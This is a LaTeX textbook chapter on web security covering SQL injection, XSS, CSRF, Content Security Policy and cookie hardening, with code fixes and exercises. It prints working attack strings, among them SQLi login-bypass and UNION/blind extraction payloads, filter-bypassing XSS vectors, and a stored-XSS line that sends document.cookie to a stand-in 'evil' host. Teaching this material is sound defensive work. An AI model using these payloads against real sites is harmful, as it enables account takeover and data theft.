% SC4012 --- Chapter 3: Web Security (0->100 ground-up)
\chapter{Web Security: SQLi, XSS, CSRF and CSP}
\label{ch:web}

\begin{quote}
\emph{``The web trusts too easily.''} --- Every query, script and request mixes code and data across origins. We learn how that mixing is exploited and how separation is restored.
\end{quote}

\noindent\fbox{\parbox{\dimexpr\linewidth-2\fboxsep-2\fboxrule}{%
\textbf{From zero: how the web executes input.} We start from a browser rendering HTML, a server building SQL, and a site handling cookies. No prior web background is assumed; we build to injection, script hijack, request forgery, and the policy that contains them.}}
\vspace{0.4em}

\section*{Learning Outcomes}
After this chapter you will be able to:
\begin{enumerate}[label=(L\arabic*)]
    \item distinguish data vs.\ code in SQL, HTML and HTTP and explain injection;
    \item construct SQLi and XSS payloads (stored, reflected, DOM) and propose fixes;
    \item explain CSRF and why SameSite, tokens and origin checks stop it;
    \item write a Content Security Policy that blocks inline script even if XSS slips;
    \item apply output encoding and parameterisation as the canonical defences.
\end{enumerate}

% ============================================================
\section{Injection as Code--Data Confusion}
\label{sec:code-data}
All web injection shares one shape: untrusted input is concatenated into a program (SQL, HTML/JS, shell) without preserving the boundary between its structure and the input's data. Formally, let $T$ be a template with a hole $\langle data\rangle$; safe instantiation is $\text{bind}(T, data)$ where $data$ is never parsed as syntax. String concatenation breaks that contract.

\begin{figure}[h]\centering

\begin{tikzpicture}[scale=0.85,every node/.style={font=\scriptsize}]
  \node[draw,thick,fill=blue!12,rounded corners,minimum width=5.4cm,minimum height=0.8cm] (q) at (0,1.6) {\texttt{SELECT ... WHERE name = '}$\langle$data$\rangle$\texttt{'}};
  \node[draw,thick,fill=green!15,rounded corners,minimum width=2.6cm,minimum height=0.7cm] (good) at (-3.0,0) {\texttt{'alice'} $\to$ data};
  \node[draw,thick,fill=red!15,rounded corners,minimum width=2.6cm,minimum height=0.7cm] (bad) at (3.0,0) {\texttt{' OR 1=1; --} $\to$ code};
  \draw[->,thick,blue!60!black] (q) -- (good) node[midway,above,sloped,font=\tiny] {benign};
  \draw[->,thick,red!70!black] (q) -- (bad) node[midway,above,sloped,font=\tiny] {injection};
  \draw[decorate,decoration={brace,mirror,amplitude=5pt},thick] (-1.45,-0.55) -- (1.45,-0.55) node[midway,below=4pt,font=\tiny] {parse tree must stay fixed};
\end{tikzpicture}
\caption{SQL injection as breaking out of the data context. Benign input stays inside the literal; attacker input escapes and alters the query tree.}
\label{fig:sqli-context-web}
\end{figure}

The same diagram applies to HTML: \texttt{<div>}$\langle$data$\rangle$\texttt{</div>} is safe only if $\langle$data$\rangle$ is entity-encoded; otherwise \texttt{<script>} inside it is parsed as code.

\begin{lstlisting}[language=Python]
# Vulnerable login (string concatenation)
query = "SELECT * FROM users WHERE name = '" + username + "' AND pw = '" + password + "'"
cursor.execute(query)
# Attack: username = "' OR 1=1; --"  =>  SELECT * FROM users WHERE name = '' OR 1=1; --' ...

# Safe: parameterised query (structure compiled first, data bound separately)
cursor.execute("SELECT * FROM users WHERE name = ? AND pw = ?", (username, password))
\end{lstlisting}

\begin{definition}[SQL injection]
\emph{SQLi} occurs when untrusted input is interpolated into a SQL statement without parameterisation, allowing the attacker to change the parse tree. Blind, union and second-order variants differ only in how data is exfiltrated.
\end{definition}

\begin{example}[Second-order and stored SQLi]
Not every injection fires immediately. Second-order SQLi stores a payload (e.g., username \texttt{admin'--}) that is later concatenated into another query (password reset, reporting). Audits that only test direct inputs miss it; data must be treated as untrusted at \emph{every} concatenation, not just at entry.
\end{example}

\begin{example}[UNION and blind exfiltration]
\texttt{cat='' UNION SELECT password FROM users--} appends password hashes to the product list. Blind: \texttt{AND SUBSTRING(pw,1,1)='a'} returns different pages for true/false, leaking one bit per request; automation extracts the whole secret.
\end{example}

% ============================================================
\section{Cross-Site Scripting (XSS)}
\label{sec:xss-web}
XSS injects JavaScript that the victim's browser executes in the origin of the vulnerable site, stealing cookies or performing actions as the user.

\begin{description}[leftmargin=1.2em,itemsep=0.35em]\sloppy
    \item[Stored XSS] Payload saved on the server (comment, profile) and served to every visitor. Example \texttt{<script>fetch('//evil?c='+document.cookie)</script>} persists.
    \item[Reflected XSS] Payload arrives in the request (\texttt{?q=<svg onload=alert(1)>}) and is echoed verbatim. Needs a lure URL.
    \item[DOM XSS] No server reflection; client JS sinks attacker data into \texttt{innerHTML} or \texttt{eval}: \texttt{el.innerHTML = location.hash.slice(1)}.
\end{description}\fussy

\begin{figure}[h]\centering

\begin{tikzpicture}[scale=0.84,every node/.style={font=\scriptsize}]
  \node[draw,fill=blue!14,rounded corners=3pt,minimum width=2.2cm,minimum height=0.7cm,align=center] (a) at (-4.2,0) {Attacker};
  \node[draw,fill=green!14,rounded corners=3pt,minimum width=2.2cm,minimum height=0.7cm,align=center] (s) at (-1.0,0) {Server};
  \node[draw,fill=orange!18,rounded corners=3pt,minimum width=2.2cm,minimum height=0.7cm,align=center] (v) at (2.2,0) {Victim};
  \draw[->,thick,red!70!black] (a) -- (s) node[midway,above,font=\tiny] {store payload};
  \draw[->,thick,blue!60!black] (v) -- (s) node[midway,above,font=\tiny] {view page};
  \draw[->,thick,red!70!black] (s) -- (v) node[midway,above,font=\tiny] {page + script};
  \draw[->,thick,red!70!black,dashed] (v) -- ++(0,1.2) -- ++(2.4,0) node[midway,above,font=\tiny] {exfil cookie to evil.com};
  \node[font=\tiny,align=center] at (-1.0,-0.85) {Stored: server keeps the script;\\reflected/DOM skip the store step.};
\end{tikzpicture}
\caption{XSS flows. Stored persists on the server; reflected and DOM require the victim to visit a crafted URL but execute identically in the page's origin.}
\label{fig:xss-flow}
\end{figure}

\begin{example}[Payload that defeats naive filtering]
Filter that removes \texttt{<script>} is bypassed by \texttt{<Svg OnLoad=alert(1)>}, \texttt{<img src=x onerror=alert(1)>}, or \texttt{<iframe src=javascript:alert(1)>}. Encoding, not filtering, is the fix; CSP catches what encoding misses.
\end{example}

\begin{definition}[XSS]
\emph{Cross-Site Scripting} occurs when an application includes untrusted data in an HTML/JS context without proper output encoding, causing the browser to execute it as script in the application's origin.
\end{definition}

Output encoding is context-sensitive: HTML-entity encode in element content, attribute-encode in attributes, JS-encode inside \texttt{<script>}, URL-encode in URLs. A single \texttt{htmlspecialchars} is not universally sufficient.

\begin{lstlisting}[language=Python]
# Context-aware encoding (illustrative)
import html, json, urllib.parse
safe_html = html.escape(user_input)                    # for <div>content</div>
safe_attr = html.escape(user_input, quote=True)        # for <div title="...">
safe_js   = json.dumps(user_input)                     # for <script>var x = ...</script>
safe_url  = urllib.parse.quote(user_input)             # for <a href="...">
# For DOM: NEVER use innerHTML with untrusted data; use textContent
# el.textContent = user_input;   // safe -- no parsing as HTML
\end{lstlisting}

% ============================================================
\section{CSRF and SameSite}
\label{sec:csrf}
Cross-Site Request Forgery abuses the browser's ambient authority: cookies are attached automatically to cross-origin requests, so visiting \texttt{evil.com} can trigger \texttt{POST https://bank.com/transfer} with the victim's session.

\begin{definition}[CSRF]
\emph{CSRF} is an attack where a malicious site causes the victim's browser to send an authenticated request to a target site that the victim did not intend, exploiting automatic credential attachment.
\end{definition}

\begin{figure}[h]\centering

\begin{tikzpicture}[scale=0.82,every node/.style={font=\scriptsize}]
  \node[draw,fill=red!14,rounded corners=3pt,minimum width=2.0cm,minimum height=0.7cm,align=center] (evil) at (-4.0,0) {evil.com};
  \node[draw,fill=blue!12,rounded corners=3pt,minimum width=2.0cm,minimum height=0.7cm,align=center] (browser) at (0,0) {Browser\\ \tiny + cookie};
  \node[draw,fill=green!14,rounded corners=3pt,minimum width=2.0cm,minimum height=0.7cm,align=center] (bank) at (4.0,0) {bank.com};
  \draw[->,thick,red!70!black] (evil) -- (browser) node[midway,above,font=\tiny] {lure page};
  \draw[->,thick,red!70!black,dashed] (browser) -- (bank) node[midway,above,font=\tiny] {auto POST + cookie};
  \draw[->,thick,green!50!black,dashed] (bank) -- (browser) node[midway,below,font=\tiny] {transfer executed!};
  \node[draw,fill=yellow!18,rounded corners=3pt,minimum width=5.2cm,minimum height=0.6cm,align=center,font=\tiny] at (0,-1.3) {Mitigations: CSRF token, SameSite=Lax/Strict, Origin/Referer check};
\end{tikzpicture}
\caption{CSRF: the victim visits the attacker site, whose page triggers an authenticated request to the target. The browser attaches the session cookie automatically.}
\label{fig:csrf}
\end{figure}

Defences compose: (i) anti-CSRF token (random secret bound to session, sent as hidden field and checked server-side), (ii) \texttt{SameSite=Lax/Strict} cookies (browser only sends on same-site navigations), and (iii) explicit Origin/Referer validation. Frameworks enable all three; relying on only one (e.g., Referer alone) is fragile.

% ============================================================
\section{Content Security Policy (CSP)}
\label{sec:csp}
{\sloppy
CSP is a second layer that contains injection even when encoding slips. Delivered as header \texttt{Content-Security-Policy:} \texttt{script-src 'self';} \texttt{object-src 'none';} \texttt{base-uri 'none'}, it tells the browser which script sources are allowed, whether inline scripts or \texttt{eval} may run, and where forms may submit.
\par}

\begin{lstlisting}[language=Python]
# Flask example: CSP header that blocks inline scripts (mitigates XSS)
@app.after_request
def csp(resp):
    resp.headers["Content-Security-Policy"] = \
        "default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none'"
    resp.headers["Set-Cookie"] = "session=...; SameSite=Lax; HttpOnly; Secure"
    return resp
# Even if attacker injects <script>alert(1)</script>, the browser refuses to run it
# when script-src lacks 'unsafe-inline'. Nonce/hash CSP allows specific inline scripts.
\end{lstlisting}

Nonces and hashes allow specific inline scripts without opening the floodgates: \texttt{script-src 'nonce-\textit{r}' } permits only tags bearing that nonce, and \texttt{'sha256-\textit{...}'} permits an exact hash. This lets legitimate inline scripts survive while attacker-injected ones are still blocked.

CSP is defence in depth, not a replacement for encoding and parameterisation. Useful directives: \texttt{script-src} (who may supply JS), \texttt{connect-src} (XHR/fetch destinations), \texttt{frame-ancestors} (clickjacking), \texttt{trusted-types} (DOM XSS sink control). Report-only mode (\texttt{Content-Security-Policy-Report-Only}) helps deploy without breaking.

\begin{remark}[Deploy CSP incrementally]
Start in report-only mode, collect violations, allow-list what is legitimate, then enforce. Large apps often need a few weeks to discover all script sources; enforcing on day one breaks the app and gets the header removed.
\end{remark}

\begin{remark}[Session hygiene]
\texttt{HttpOnly} prevents JS from reading cookies (blocks exfil after XSS), \texttt{Secure} restricts to HTTPS, \texttt{SameSite} blocks CSRF. None fix the underlying injection; they shrink the blast radius so one bug is not game over.
\end{remark}

% ============================================================
\section{Session, Cookies and Clickjacking}
\label{sec:session}
Authentication state lives in cookies. If a cookie is readable by JS, XSS can exfiltrate it; if it is sent cross-site, CSRF can ride it; if HTML can be framed, clickjacking can trick the user into clicking a hidden authenticated button. Three headers close the gaps: \texttt{X-Frame-Options: DENY} or \texttt{frame-ancestors 'none'} (anti-framing), \texttt{HttpOnly; Secure; SameSite=Lax}, and \texttt{Content-Security-Policy: frame-ancestors 'none'}.

Clickjacking overlays a transparent iframe over a lure button: the user thinks they click ``Play'' but actually click ``Delete account'' in the framed site. Frame-busting JS is unreliable; the header is the fix. Similarly, \texttt{Referrer-Policy} and \texttt{Cross-Origin-Opener-Policy} limit cross-origin leaks that amplify XSS/CSRF impact.

\begin{example}[Cookie triplet]
A correct session cookie: \texttt{Set-Cookie: sid=\textit{random}; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=3600}. Missing \texttt{HttpOnly} leaks to \texttt{document.cookie} after XSS; missing \texttt{Secure} leaks over HTTP; missing \texttt{SameSite} allows CSRF. All three are one line, yet audits still find sites missing them.
\end{example}

% ============================================================
\section{Secure Defaults and Framework Help}
\label{sec:defaults}
The safest fix is to never be in a position to forget. Modern frameworks default to safety: ORMs use parameterised queries by construction, template engines auto-escape (Jinja2, React JSX, Angular), and CSRF middleware injects and checks tokens without developer action. The job of application code is to stay on the happy path and not bypass those defaults with ``raw'' APIs.

Checklist for review: (1) grep for string-concatenated SQL/HTML/JS; (2) grep for \texttt{innerHTML}, \texttt{document.write}, \texttt{eval}, \texttt{exec} with tainted input; (3) confirm CSP header present and \texttt{HttpOnly/Secure/SameSite} on session cookies; (4) test with an automated scanner (OWASP ZAP) plus manual payloads.

\begin{remark}[Why blacklists fail]
Deny-lists (``strip \texttt{<script>} and \texttt{OR 1=1}'') fail because the language is large and attacker encodings are many (case, Unicode, comments, double encoding). Allow-lists (typed parameters, auto-escaping templates, CSP allow-lists) are smaller and verifiable. Prefer constructing the safe output to filtering the unsafe input.
\end{remark}

% ============================================================
\section{Exercises}
\label{sec:ch03-exercises}
{\sloppy
\begin{enumerate}[label=E3.\arabic*, leftmargin=*, itemsep=0.6em]
    \item \textbf{SQLi payloads.} Query: \texttt{SELECT id FROM products WHERE cat='\$cat' ORDER BY price}. Craft payloads for \$cat that (a) returns all rows, (b) extracts admin password length via blind condition, (c) give the one-line parameterised fix and explain why string escaping alone is not enough.
    \item \textbf{XSS taxonomy.} Classify as stored, reflected or DOM and give the sink: (a) comment \texttt{<b>\$name</b>} stored unescaped, (b) \texttt{?error=\$msg} echoed, (c) \texttt{location.hash} assigned to \texttt{innerHTML}. Propose a safe alternative using \texttt{textContent} for (c).
    \item \textbf{CSRF bypass.} A site checks \texttt{Referer} contains \texttt{bank.com} but allows empty Referer. Show how an attacker bypasses it (e.g., Referrer-Policy or meta refresh) and why adding a per-session token and \texttt{SameSite=Lax} together stops it.
    \item \textbf{CSP design.} Write a CSP that allows scripts only from \texttt{'self'} and \texttt{cdn.example.com}, blocks inline scripts and plugins, and reports violations to \texttt{/csp-report}. Explain which XSS payloads still run (if any) and which are blocked.
    \item \textbf{Encoding contexts.} Input \texttt{" onload="alert(1)} is placed in (a) \texttt{<div>DATA</div>}, (b) \texttt{<div title="DATA">}, (c) \texttt{<script>var x="DATA"</script>}. Show what encoding each context needs and why a single HTML-entity encode fails for (c).
\end{enumerate}
\par}

\section*{Chapter Notes}
SQLi taxonomy from Halfond et al.~(2006); XSS contexts and encoders from OWASP Cheat Sheets and Klein (2005). CSRF systematised by Barth et al.~(2008); SameSite cookies by Goodwin \& West (IETF). CSP is W3C standard (Sterne \& Barth); bypasses catalogued by Weichselbaum et al. Trusted Types (Google) and \texttt{HttpOnly/Secure/SameSite} are covered in MDN and OWASP ASVS.

% End of Chapter 3
